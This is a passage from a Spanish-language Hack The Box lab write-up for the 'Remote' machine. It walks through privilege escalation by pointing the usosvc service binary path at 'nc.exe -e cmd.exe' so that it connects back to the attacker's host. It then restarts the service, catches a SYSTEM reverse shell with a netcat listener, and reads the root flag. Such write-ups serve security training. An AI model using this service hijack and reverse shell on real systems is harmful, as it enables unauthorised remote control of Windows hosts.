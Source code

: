 - ​	`binPath:` especifica una ruta al archivo binario del servicio.

Volvemos a consultar la ruta del archivo en donde se está ejecutando el servicio y vemos que ya ha cambiado:

```
PS C:\tmp> reg query "HKLM\System\CurrentControlSet\Services\usosvc" /v "ImagePath"
reg query "HKLM\System\CurrentControlSet\Services\usosvc" /v "ImagePath"

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\usosvc
    ImagePath    REG_EXPAND_SZ    C:\tmp\nc.exe -e cmd.exe 10.10.14.26 443
```

Ahora vamos a parar la ejecución del servicio:

```
PS C:\tmp> sc.exe stop usosvc
sc.exe stop usosvc

SERVICE_NAME: usosvc 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530
```

Antes de reiniciar el servicio, vamos a entablar la sesión con netcat en el puerto 443.

```
┌─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #rlwrap nc -nvlp 443
listening on [any] 443 ...
```

- `rlwrap:` es una utilidad en Linux que proporciona un historial de comandos y edición de entrada de teclado, esto con el fin de que nuestra shell reversa sea más interactiva.

Ahora sí vamos a reiniciar el servicio:

```
PS C:\tmp> sc.exe start usosvc      
sc.exe start usosvc
```

Por último, debemos obtener rápidamente la flag del root, ya que después de 30 segundos, el servicio no se inicia porque `nc.exe` no es un binario de servicio.

```
─[root@parrot]─[/home/nicolasmira101/Documents/Hack-the-box/Maquinas/Remote]
└──╼ #rlwrap nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.180] 49703
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
type C:\Users\Administrator\Desktop\root.txt
903944...........................

C:\Windows\system32>
```

